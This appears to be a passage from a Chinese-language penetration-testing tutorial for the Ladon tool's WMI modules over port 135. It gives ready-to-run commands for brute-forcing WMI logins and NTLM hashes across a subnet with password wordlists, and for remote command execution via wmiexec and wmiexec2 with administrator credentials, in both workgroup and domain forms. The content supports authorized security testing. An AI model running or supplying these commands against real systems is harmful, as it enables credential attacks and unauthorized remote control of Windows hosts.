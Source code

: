 **<a class="reference-link" name="Ladon"></a>Ladon**

|模块功能|目标端口|目标系统|使用教程
|------
|WMI爆破|135|Windows|[教程](http://k8gege.org/Ladon/WmiScan.html)
|WMI-NtlmHash爆破|135|Windows|[教程](http://k8gege.org/Ladon/WmiScan.html)
|WmiExec|135|Windows|只需要135端口通过注册表回显，不依赖445、Powershell
|WmiExec2|135|Windows|只需135端口通过注册表回显，但依赖Powershell

**<a class="reference-link" name="WMI%E7%88%86%E7%A0%B4(135%E7%AB%AF%E5%8F%A3)"></a>WMI爆破(135端口)**

> ***注意**：请提前在ladon.exe目录下准备好user.txt和pass.txt。*

```
ladon.exe 192.168.8.192/24 WmiScan
```

[![](https://p4.ssl.qhimg.com/t01da3ffdad2560184a.png)](https://p4.ssl.qhimg.com/t01da3ffdad2560184a.png)

<a class="reference-link" name="WMI-NtlmHash%E7%88%86%E7%A0%B4%EF%BC%88135%E7%AB%AF%E5%8F%A3%EF%BC%89"></a>**WMI-NtlmHash爆破（135端口）**

```
ladon.exe  192.168.8.192 WmiHashScan
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b75109fcf31a6037.png)

**<a class="reference-link" name="WmiExec"></a>WmiExec**

```
ladon.exe wmiexec 192.168.8.192 Administrator win@123 cmd whoami
```

Ladon wmiexec成功执行命令

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012308cce4e3881ab2.png)

**<a class="reference-link" name="WmiExec2"></a>WmiExec2**

```
###在工作组尝试执行命令
ladon.exe wmiexec2 192.168.8.192 Administrator win@123 cmd whoami
###在域内尝试执行命令
ladon.exe wmiexec2 10.10.0.10 test1\Administrator win@123 cmd whoami
```

Ladon wmiexec2成功在工作组执行命令

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a8e5afd7da07c019.png)

